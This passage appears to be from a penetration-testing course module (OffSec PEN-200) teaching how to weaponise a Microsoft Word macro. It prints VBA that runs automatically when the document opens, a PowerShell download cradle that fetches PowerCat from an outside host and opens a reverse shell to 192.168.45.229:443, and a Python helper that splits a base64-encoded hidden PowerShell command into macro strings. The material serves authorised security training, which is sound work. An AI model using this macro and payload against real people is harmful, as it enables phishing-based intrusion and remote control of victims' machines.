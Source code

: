 To do this, we'll click on the _Macros_ element in the _View_ tab, select _MyMacro_ in the list and click on _Edit_ to get back to the macro editor. Next, we'll declare a string variable named _Str_ with the _Dim_[14](https://portal.offsec.com/courses/pen-200/books-and-videos/modal/modules/client-side-attacks/exploiting-microsoft-office/leveraging-microsoft-word-macros#fn14) keyword, which we'll use to store our PowerShell download cradle and the command to create a reverse shell with PowerCat. The following listing shows the declaration of the variable and the modified line to run the command stored as a string in the variable.

```
Sub AutoOpen()
    MyMacro
End Sub

Sub Document_Open()
    MyMacro
End Sub

Sub MyMacro()
    Dim Str As String
    CreateObject("Wscript.Shell").Run Str
End Sub
```

> Listing 5 - Declaring a string variable and provide it as a parameter

Next, we'll employ a PowerShell command to download PowerCat and execute the reverse shell. We'll encode the command with base64 to avoid issues with special characters as we've dealt with in previous Modules. The following listing shows the PowerShell command before base64-encoding.

To base64-encode our command, we can use _pwsh_ on Kali as we did in the Common Web Application Attacks Module.

```
IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.45.229/powercat.ps1');powercat -c 192.168.45.229 -p 443 -e powershell
```

> Listing 6 - PowerShell download cradle and PowerCat reverse shell

We can use the following Python script to split the base64-encoded string into smaller chunks of 50 characters and concatenate them into the _Str_ variable. To do this, we store the PowerShell command in a variable named _str_ and the number of characters for a chunk in _n_. We must make sure that the base64-encoded command does not contain any line breaks after we paste it into the script. A for-loop iterates over the PowerShell command and prints each chunk in the correct format for our macro.

```
str = "powershell.exe -nop -w hidden -e SQBFAFgAKABOAGUAdwA..."

n = 50

for i in range(0, len(str), n):
	print("Str = Str + " + '"' + str[i:i+n] + '"')
```

> Listing 7 - Python script to split a base64 encoded PowerShell command string
